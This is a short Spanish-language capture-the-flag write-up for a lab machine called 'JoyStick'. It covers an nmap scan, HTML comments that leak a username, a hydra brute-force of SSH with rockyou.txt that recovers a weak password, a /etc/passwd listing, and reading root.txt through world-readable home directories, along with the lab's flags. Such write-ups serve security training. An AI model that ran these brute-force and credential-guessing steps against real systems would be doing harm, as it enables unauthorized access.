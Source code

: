 # JoyStick
Room Sencillita ,un poco disgusting ya que es solo bruteforcing
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: JoyStick Gaming
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enum

### HTTP

```html
<!-- Zach, I don't care that you named your user steve. You still need to finish making the website -->
<!-- Great, and now the FTP server just doesn't work. Just another great idea after	your failed irc chat. Why would we use that when we have in game chat? 
Not to mention that I know you still haven't reset your password.  -->
```

Por lo que se ve tenemos un usuario llamado Steve con creds faciles de averiguar

### SSH

Vamos a hacerle bruteforcing
```
hydra -l steve -P rockyou.txt 10.10.101.140 -t 16 ssh
[22][ssh] host: 10.10.101.140   login: steve   password: changeme
```

Accedemos con las creds y ya tenemos acceso a la primera flag
```
flag{is_only_gaem}
```
### Privesc

```
root:x:0:0:root:/root:/bin/bash
notch:x:1000:1000:Notch,,,:/home/notch:/bin/bash
minecraft:x:1001:1001:Mine,,,:/home/minecraft:/bin/bash
```
Tras enumerar usuarios me di cuenta de qeu tenia acceso a los otros /home, en el de Notch hay un root.txt

Lo podemos leer y así conseguir la otra flag

```
flag{poorly_configured_permissions}
```
